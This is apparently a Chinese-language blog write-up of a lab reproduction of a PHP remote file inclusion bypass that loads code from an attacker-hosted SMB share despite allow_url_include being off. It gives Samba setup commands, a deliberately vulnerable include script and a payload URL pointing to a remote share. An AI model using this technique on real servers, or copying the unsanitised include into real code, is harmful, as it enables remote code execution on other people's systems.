 ## RFI 绕过 URL 包含限制 getshell ##
时间：2019/5/27

### 前言 ###
在放学的时候，瞄到这篇文章。咦，由这种操作
火速的复现了一波
文章地址：[RFI 绕过 URL 包含限制 getshell](https://paper.seebug.org/923/)

### 实验过程 ###
环境如下：
```
phpstudy
samba
```

首先要在文件包含漏洞里面实现远程包含要满足两个条件
```
allow_url_fopen=On	
allow_url_include=On
```

默认的php.ini是这样的：
```
allow_url_fopen=On	
allow_url_include=Off
```

完全不可能实现远程包含的可能，而smb的出现打破了久未的局面
首先根据文章把allow_url_fopen和allow_url_include设置为Off
```
allow_url_fopen=Off	
allow_url_include=Off
```
![](https://s2.ax1x.com/2019/05/27/VZrruD.png)

在kali上执行以下命令：
```
apt-get install samba
mkdir /var/www/html/pub

#配置smb
chmod 0555 /var/www/html/pub/
chown -R nobody:nogroup /var/www/html/pub/
echo > /etc/samba/smb.conf
#将下面的内容放在/etc/samba/smb.conf文件中
[global]
workgroup = WORKGROUP
server string = Samba Server %v
netbios name = indishell-lab
security = user
map to guest = bad user
name resolve order = bcast host
dns proxy = no
bind interfaces only = yes

[ethan]
path = /var/www/html/pub
writable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody

#启动smb
service smbd start
```
在windows里面连接smb
![](https://s2.ax1x.com/2019/05/27/VZrzKU.md.png)

rfi.php
```php
<?php
if(isset($_GET['a'])){
	$a=$_GET['a'];
	include($a);
}
?>
```

执行如下payload
```
http://192.168.1.113/demo.php?a=\\192.168.1.115\ethan\phpinfo.php
```

![](https://s2.ax1x.com/2019/05/27/VZsxJI.png)